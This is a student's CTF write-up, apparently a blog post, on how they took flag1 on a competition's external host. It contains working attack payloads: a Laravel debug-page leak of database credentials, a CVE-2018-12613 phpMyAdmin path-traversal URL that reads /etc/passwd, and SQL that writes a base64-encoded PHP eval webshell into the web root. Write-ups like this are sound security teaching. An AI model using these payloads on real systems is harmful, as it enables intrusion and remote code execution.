






This was my first time at an on-site competition, and also my first time doing a pentest challenge. On top of that, I hadn't had much time at school these past few months to study CTF or anything, but luckily I got my hands on a pentest simulation set in the early hours of the competition day and learned the rough workflow. In the end I didn't finish empty-handed: I got a free boxed lunch, Burger King, and sixth place, with a third-prize award of 500 yuan.





But I only got as far as the external host; the internal network's flag1/2/3 were basically taken down with AI's help, so I've only recorded the writeup for flag1 on the external host here. I really do need to keep practicing on the pentest side of things, meow.

## flag1

When I first entered the page, I found:

```text
[2025-12-01] 系统正在升级维护中...
[2025-12-01] 默认密码是6位数字
```

Then I found a phpMyAdmin login page and assumed it was a brute-force challenge, but there was clearly no way to try a million candidates, especially since the username wasn't even determined yet, so that route was obviously a dead end. dirsearch didn't turn up any useful results either:

```text
(venv) resi@MacBook-Air dirsearch % python3 dirsearch.py -u http://10.12.147.127/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12295

Target: http://10.12.147.127/

[12:13:32] Scanning: 
[12:15:11] 301 -   312B - /css  ->  http://10.12.147.127/css/               
[12:15:21] 200 -     0B - /favicon.ico                                      
[12:15:31] 200 -    1KB - /index.php                                        
[12:15:35] 403 -   278B - /js/                                              
[12:15:35] 301 -   311B - /js  ->  http://10.12.147.127/js/                 
[12:15:55] 301 -   319B - /phpmyadmin  ->  http://10.12.147.127/phpmyadmin/ 
[12:15:56] 200 -    1KB - /phpmyadmin/README                                
[12:15:56] 200 -   20KB - /phpmyadmin/ChangeLog                             
[12:15:56] 200 -   15KB - /phpmyadmin/doc/html/index.html                   
[12:15:56] 200 -   14KB - /phpmyadmin/index.php                             
[12:15:56] 200 -   14KB - /phpmyadmin/                                      
[12:16:05] 200 -    24B - /robots.txt                                       
[12:16:07] 403 -   278B - /server-status/                                   
[12:16:07] 403 -   278B - /server-status
[12:16:30] 200 -    1KB - /web.config                                       

Task Completed
```

The `ChangeLog` showed the phpMyAdmin version as 4.8.1, which is affected by CVE-2018-12613, but I still couldn't get into the backend yet, and `robots.txt` was empty too. Then I received some hints and noticed a few important parts:

```text
提示1:入口不需要爆破，页面是一个框架，存在信息泄露漏洞

提示2:入口主页是一个php mvc框架，存在信息泄露漏洞

提示3:入口的框架名称laravel,存在debug信息泄露

提示6:入口的phpmyadmin存在文件包含漏洞

提示7:入口不止一个flag,入口不存在内核提权

提示8:入口文件包含漏洞编号:CVE-2018-12613
```

Hints 1, 6, and 8 confirmed my earlier thinking. Noticing hints 2 and 3, and given that my earlier Burp Suite capture had also found `laravel_session` in the cookie, I started from the Laravel framework's debug information disclosure.

```bash
curl -s "http://10.12.147.127/abcdefg123" | head -50
```

First I tried visiting a nonexistent route to make Laravel throw an error, but I got the standard 404 error page, `Not Found`, which didn't expose any information.

```bash
curl -s -X PUT http://10.12.147.127/ -o whoops.html
```

Then I tried accessing it with an incorrect HTTP method and got the Whoops debug page, which successfully leaked the key information. From the full Whoops page, I got the account and password — "`laravel`" and "`secret_db_pass_1234`" — and logged into phpMyAdmin successfully.



So I continued along the earlier CVE-2018-12613 line of thinking and tried the payload:

```text
/phpmyadmin/index.php?target=db_sql.php%253f../../../../../../../../../etc/passwd
```

I found that `/etc/passwd` was read, which showed that the file inclusion vulnerability existed, so I kept going.

```sql
SELECT '<?php phpinfo()?>'; 
```

```text
/phpmyadmin/index.php?target=db_sql.php%253f../../../../../../../../../tmp/sess_xxxx
```



I successfully read `phpinfo`, so I tried a one-line webshell.

```sql
SELECT '<?php @eval($_POST["cmd"]); ?>'
```

But it didn't write successfully. It turned out that phpMyAdmin strips the tags out of SQL queries, so PHP code can't be injected through the session. So I tried base64-encoding it before writing the file, and based on that I came up with the following payload:

```sql
SELECT "<?=`echo PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+|base64 -d>/var/www/html/laravel/public/z.php`;?>" as o
```

I connected with AntSword and got a shell successfully:



